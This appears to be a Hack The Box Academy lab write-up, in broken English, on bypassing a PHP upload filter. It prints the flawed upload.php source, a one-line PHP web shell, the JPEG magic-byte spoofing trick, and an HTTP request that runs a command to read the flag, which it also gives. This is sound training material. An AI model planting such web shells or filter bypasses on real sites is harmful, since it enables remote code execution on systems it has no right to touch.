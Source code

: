 #  Try to exploit the upload form to read the flag found at the root directory "/".
IP : 83.136.252.13:58188
- Try to fuzz for non-blacklisted extensions, and for allowed content-type headers. If you are unable to locate the uploaded files,
try to read the source code to find the uploads directory and the naming scheme.

We can see the can upload the image.
Fist we upload the payload xml for see the upload.php code:

![payload](.../Img/xmlskillpay.png)

we must  decode the in cyberchef:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}


```
For get the url u must to see the php code and get the date of the day:
/250411_shell...

After that we must to see how can we get the extension for the file using the intruder:
Create the file ./shell.phar.jpeg and with the tool monaspad paste the payload:

```sh
AAAA
<?php echo system($_GET["cmd"]);?>
```
After that we must to change the hex decimal for pass, 4 couple of digits:
FOr change the hex:
`FF D8 FF DB`

Now we can upload the the file shell.phar.jpeg
![Payload](../Img/patloaddfileupload.png)

flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
```js
GET /contact/user_feedback_submissions/250411_shell.phar.jpeg?cmd=cat%20../../../../../flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt HTTP/1.1
Host: 94.237.53.203:42898
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Then we can get the cmd uploaded and then
![Flag](../Img/flagskillfile.png)
Reponse:
HTB{m4573r1ng_upl04d_3xpl0174710n}
HTB{m4573r1ng_upl04d_3xpl0174710n}
https://academy.hackthebox.com/achievement/349590/136
